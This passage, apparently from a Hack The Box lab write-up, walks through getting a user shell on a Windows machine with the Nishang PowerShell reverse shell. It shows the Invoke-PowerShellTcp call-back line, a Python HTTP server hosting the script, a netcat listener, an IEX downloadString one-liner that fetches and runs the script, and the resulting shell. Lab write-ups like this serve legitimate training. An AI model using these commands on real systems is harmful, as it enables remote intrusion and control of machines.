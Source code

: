 My favorite Powershell reverse shell is Nishang, here is the GitHub link you can clone if you want to give it a try. I'll also add the example code you need to add at the end of the script for it to connect back to you (use your IP and whatever port you want it to connect to)
```
https://github.com/samratashok/nishang

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 4444
```

Here comes the shell, lets start the HTTP server to host our .ps1 file
```
root@collector:~/htb/boxes/curling# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

Now we need to listen on our attacking machine. Remember the port you told your reverse shell to connect back to
```
root@collector:~/htb# nc -vlnp 4444
listening on [any] 4444 ...
```

Now on the victim machine, I run a Powershell one liner to run and execute my reverse shell
```
C:\Users\security>powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8000/shell.ps1')"
```

And now we have a user reverse shell
```
root@collector:~/htb# nc -vlnp 4444
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.98] 49159
Windows PowerShell running as user security on ACCESS
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\security>
```

Here is a picture showing all of my terminals, having a terminal manager helps out a lot with this

![AccessReverse](/assets/AccessReverse.png)
